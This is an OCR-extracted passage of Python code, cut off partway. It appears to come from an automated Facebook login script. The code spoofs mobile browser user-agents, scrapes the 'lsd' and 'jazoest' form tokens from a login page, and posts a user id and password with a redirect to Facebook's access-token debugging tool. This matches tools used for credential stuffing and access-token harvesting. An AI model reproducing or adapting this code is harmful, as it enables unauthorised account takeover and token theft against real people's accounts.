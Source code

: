                      "user-agent":"NokiaC5-05/22.5.007 (SymbianOS/9.4; U; Series60/5.0 Mozilla/5.0; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Safari/525 3gpp-gba+", 
  
                     "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
  
                     "dnt":"1", 
  
                     "x-requested-with":"mark.via.gp", 
  
                     "sec-fetch-site":"same-origin", 
  
                     "sec-fetch-mode":"cors", 
  
                     "sec-fetch-user":"empty", 
  
                     "sec-fetch-dest":"document", 
  
                     "referer":"https://m.facebook.com/", 
  
                     "accept-encoding":"gzip, deflate br", 
  
                     "accept-language":"en-GB,en-US;q=0.9,en;q=0.8" 
  
                 } 
  
                 r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header) 
  
                 das = { 
  
                     "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1), 
  
                     "jazoest":re.search('name="jazoest" value="(.*?)"', str(r.text)).group(1), 
  
                     "uid":user, 
  
                     "flow":"login_no_pin", 
  
                     "pass":pw, 
  
                     "next":"https://developers.facebook.com/tools/debug/accesstoken/" 
  
                 } 
  
                 header1 = { 
  
                     "Host":cebok, 
  
                     "cache-control":"max-age=0", 
  
                     "upgrade-insecure-requests":"1", 
  
                     "origin":"https://"+cebok, 
  
                     "content-type":"application/x-www-form-urlencoded", 
  
                     "user-agent":"Mozilla/5.0 (iPhone; CPU iPhone OS 13_4_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 [FBAN/FBIOS;FBDV/iPhone12,1;FBMD/iPhone;FBSN/iOS;FBSV/13.4.1;FBSS/2;FBID/phone;FBLC/en_US;FBOP/5]", 
  
                     "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", 
  